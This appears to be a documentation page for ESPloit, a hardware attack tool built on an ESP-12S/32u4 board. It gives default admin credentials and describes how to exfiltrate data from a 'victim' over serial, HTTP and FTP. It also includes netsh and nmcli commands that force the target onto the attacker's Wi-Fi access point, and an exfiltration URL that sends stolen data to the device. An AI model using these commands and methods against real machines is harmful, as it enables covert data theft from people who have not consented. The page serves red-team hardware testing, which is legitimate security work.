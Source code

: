 -----  
Upgrade ESPloit Firmware  
-----  
  
Authenticate using your username and password set in the configuration page.  
  
Default credentials to access the firmware upgrade page:  
username "admin"  
password "hacktheplanet"  
  
Select "Browse" choose the new firmware to be uploaded to the ESP-12S chip and then click "Upgrade".  
  
You will need to manually reset the device upon the browser alerting you that the upgrade was successful.  
  
If you are using this mode to swap the firmware loaded on the ESP-12S chip, and if the new firmware does not support this mode then you must reflash the ESP-12S manually by uploading the programmer sketch to the 32u4 chip and then flash the ESP-12S this way.
  
-----  
Exfiltrating Data  
-----  
  
Serial Exfiltration Method:  
Find the victims com port  
Set the baud rate to 38400  
Send the text "SerialEXFIL:" followed by the data to exfiltrate  
Exfiltrated data will be saved to the file SerialEXFIL.txt  
See the example payloads for more info  
  
WiFi Exfiltration Methods:  
To exfiltrate data using WiFi methods be sure ESPloit and Target machine are on the same network.  
Either set ESPloit to join the Target's network or set the Target to join ESPloit's AP.  
  
Example commands to force victim to connect to ESPloit's network(when set as AP):  
Windows: netsh wlan set hostednetwork mode=allow ssid="SSID-HERE" key="WIFI-PASSWORD-HERE"  
Linux: nmcli dev wifi connect SSID-HERE password WIFI-PASSWORD-HERE  
  
For HTTP exfiltration method point the target machine to the url listed below:  
http://ESPloit-IP-Here/exfiltrate?file=FILENAME.TXT&data=EXFILTRATED-DATA-HERE  
The victim is forced to access the URL above and now under "List Exfiltrated Data" you will see the file "FILENAME.TXT" containing the exfiltrated data "EXFILTRATED-DATA-HERE".  
  
For FTP exfiltration method use the credentials configured in the "Configure ESPloit" page. Also note that only Passive Mode FTP is supported.  
  
See the example payloads for more in depth examples.  

-----  
Detect OS  
----- 

Based on the Keyboardio FingerprintUSBHost library.  

Inspect USB Descriptors and guess the host operating system based on markers it sees.  
